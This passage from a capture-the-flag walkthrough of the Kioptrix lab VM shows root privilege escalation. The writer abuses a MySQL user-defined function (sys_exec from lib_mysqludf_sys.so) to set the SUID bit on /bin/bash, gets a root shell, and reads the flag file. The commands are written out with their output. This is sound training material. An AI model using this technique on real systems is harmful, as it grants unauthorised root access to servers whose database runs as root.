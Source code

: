 ```console
2 rows in set (0.00 sec)
```

We found john's credentials, but we still want to get root.

After a whole lot of enumeration I discovered that mysql service is running as root. Then I followed [this wonderful guide](https://www.iodigitalsec.com/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/).

Extremely well written, made it a piece of cake to get root. Surprisingly too, the required file `lib_mysqludf_sys.so` already existed on the system.

```console
mysql> use mysql;
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod u+s /bin/bash');
```

Did we get root?

```console
bash-3.2$ ls -a /bin/bash
/bin/bash
bash-3.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 702160 2008-05-12 14:33 /bin/bash
bash-3.2$ bash -p
bash-3.2# whoami
root
```

We're done! Let's check our flag.

```console
bash-3.2# cd /root
bash-3.2# ls -al
total 44
drwxr-xr-x  4 root       root       4096 2012-02-06 18:46 .
drwxr-xr-x 21 root       root       4096 2012-02-06 18:41 ..
-rw-------  1 root       root         59 2012-02-06 20:24 .bash_history
-rw-r--r--  1 root       root       2227 2007-10-20 07:51 .bashrc
-rw-r--r--  1 root       root        625 2012-02-06 10:48 congrats.txt
-rw-r--r--  1 root       root          1 2012-02-05 10:38 .lhistory
drwxr-xr-x  8 loneferret loneferret 4096 2012-02-04 17:01 lshell-0.9.12
-rw-------  1 root       root          1 2012-02-05 10:38 .mysql_history
-rw-------  1 root       root          5 2012-02-06 18:38 .nano_history
-rw-r--r--  1 root       root        141 2007-10-20 07:51 .profile
drwx------  2 root       root       4096 2012-02-06 11:43 .ssh
bash-3.2# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret

bash-3.2#
```